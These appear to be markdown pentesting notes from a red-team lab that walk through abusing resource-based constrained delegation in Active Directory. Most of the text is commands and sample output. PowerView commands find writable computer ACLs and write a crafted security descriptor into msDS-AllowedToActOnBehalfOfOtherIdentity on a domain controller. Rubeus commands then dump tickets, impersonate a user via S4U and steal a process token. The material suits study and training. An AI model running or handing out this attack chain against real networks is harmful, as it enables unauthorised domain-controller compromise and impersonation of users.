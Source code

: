 > This abuse checks whether we have writing permissions on another computers (ACLs) and overwrites the msDS-AllowedToActOnBehalfOfOtherIdentity
> We need one of the following properties: WriteProperty, GenericAll, GenericWrite or WriteDacl

> This makes it much more likely to present itself as a privilege escalation / lateral movement opportunity

We need to things:

- A target computer on which you can modify msDS-AllowedToActOnBehalfOfOtherIdentity.
- Control of another principal that has an SPN.

# First we query domain computers and read their ACL

```bash
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

ObjectDN               : CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io (on the DC)
ActiveDirectoryRights  : Self, WriteProperty (rights here)
ObjectAceType          : All (over all properties)
ObjectSID              : S-1-5-21-569305411-121244042-2357301523-1000 (SID of object that is allowed)

```

# Check which group this is

```bash
powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

---

# We then use the SID of our compromised Computer and add it to msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
# Get SID
powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid
objectsid
---------
S-1-5-21-569305411-121244042-2357301523-1109

# Convert the content to  binary format
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)

# Update the value
powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

---

# Next we use the WKSTN-2$ account to perform s4u impersonation

```bash
# Get tickets
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Dump WKSTN-2$ ticket for krbtgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

# Use that ticket to impersonate a user
exeute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Use the user tgs ticket for nlamb to start a process and store the token
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
steal_token 1234
```

